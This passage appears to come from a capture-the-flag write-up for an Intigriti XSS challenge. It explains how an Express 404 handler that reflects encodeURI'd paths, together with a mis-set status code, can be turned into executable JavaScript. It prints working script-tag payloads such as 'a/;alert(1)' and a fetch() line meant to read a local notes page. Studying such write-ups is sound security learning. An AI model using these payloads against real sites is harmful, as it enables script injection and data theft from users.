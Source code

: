 Good that there is an injection possibility in the 404 endpoint.
```js
 app.get("*", (req, res) => {
  res.setHeader("content-type", "text/plain"); // no xss)
  res.status = 404;
  try {
    return res.send("404 - " + encodeURI(req.path));
  } catch {
    return res.send("404");
  }
});
```
See how the path is almost unchanged returned to the client `return res.send("404 - " + encodeURI(req.path));`.

The developers comment `  res.setHeader("content-type", "text/plain"); // no xss)` is true. But we can still use this endpoint in a src attribute for a `<script src=...>` tag.

We cas use `httpx` to confirm this https://editor.43z.one/4xjv4

```html
<script src="//httpx.43z.one?status=200&content-type=text/plain&body=alert(1)"></script>
```
shows an alert. 

Luckily for us the developer made a mistake in setting the status code with `res.status = 404;`. That's not how you do it with express. It's correctly done like this `res.status(404)`.

If the status code was really 404 on that endpoint it would not work for us anymore.
You can confirm this with `httpx` again, by switching `?status=200` with `?status=404`. All you get is browser error.

To turn the `404 - /noneexistingpath` into valid javascript we simply choose a path like `a/;alert(1)`

This way the response becomes `404 - /a/;alert(1)`. A number (404) minus a regex (/a/). Then our actual payload can follow. https://editor.43z.one/vndh9
```html
<script src="https://challenge-0323.intigriti.io/a/;alert(1)"></script>
```
But we will run into trouble if we use a more complex payload. Like the initial idea of

```js
r=fetch('http://127.0.0.1/notes').then(x=>x.text()).then(console.log)
```
The the `encodeURI` would turn it into 
```js
r=fetch('http://127.0.0.1/notes').then(x=%3Ex.text()).then(console.log)
```
It encodes all characters except 
```
A–Z a–z 0–9 - _ . ! ~ * ' ( )

; / ? : @ & = + $ , #
```
We would either need the `=>` for an anonymous arrow function or `{}` for defining a regular function to get the result from `fetch`
